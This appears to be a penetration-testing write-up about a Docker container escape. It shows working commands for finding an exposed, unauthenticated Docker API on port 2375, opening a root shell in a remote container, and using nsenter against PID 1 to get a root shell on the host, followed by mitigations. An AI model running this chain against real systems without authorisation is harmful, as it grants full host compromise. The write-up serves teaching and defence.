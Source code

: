 # Abusing docker misconfiguration
I took advantage of chained misconfiguration to escape the container and get access to the host OS
## First misconfiguration
The container was externally exposed

    nmap -sV -p 2375 192.168.1.100
    ...
    PORT     STATE SERVICE VERSION
    2375/tcp open  docker  Docker 20.10.20 (API 1.41)
    Service Info: OS: linux
Find remote running containers

    docker -H tcp://192.168.1.100:2375 ps                             
    CONTAINER ID   IMAGE     ...   
    2225bfdee7ec   devsrv01  ...       

Get a shell inside the remote container

    docker -H tcp://192.168.1.100:2375 exec -it 2225bfdee7ec /bin/bash
    root@2225bfdee7ec:/etc/ssh#     
## Inspect the container

    root@2225bfdee7ec:/etc/ssh# ps aux
    USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
    root           1  0.0  0.5 102540 11388 ?        Ss   13:14   0:03 /sbin/init
    ...
There are a total of 191 of running process, very strange for a container: maybe the container is sharing the same namespace with the host? That would imply the container can communicate with the processes on the host.


## Abusing the second misconfiguration: shared namespace
Here we are abusing <b>nsenter</b> command, that allows us to execute a processes in a differen namespace. 
In this scenario, since the container can see the <i>/sbin/init</i> process on the host machine, we can try to execute a shell on the host context. Let's give it a try: 

    root@2225bfdee7ec:/etc/ssh# hostname
    2225bfdee7ec
    root@2225bfdee7ec:/etc/ssh# nsenter --target 1 --mount --uts --ipc --net /bin/bash
    root@xxxxx.local:/# whoami
    root
And here we are!
For more information on the nsenter (namespace enter) command you can consult the related manual.

## Mitigations
Protect Docker daemon socket. To accomplish that you can:
1. Don't expose it
2. [Use SSH](https://docs.docker.com/engine/security/protect-access/#use-ssh-to-protect-the-docker-daemon-socket)
3. [Use TLS\HTTPS](https://docs.docker.com/engine/security/protect-access/#use-tls-https-to-protect-the-docker-daemon-socket). More information using [Self-signed certificates](https://gist.github.com/nicosingh/d8bf0defdd4c911bda3392e420d665dd)
4. Don't run containers in <b>privileged mode</b>. It's recommended assigning specific capabilities to a container, rather than running it with the --privileged flag. More info about capabilities [here](https://docs.docker.com/engine/security/#linux-kernel-capabilities).

## A final note
Actually I faced this scenario in a real engagement.
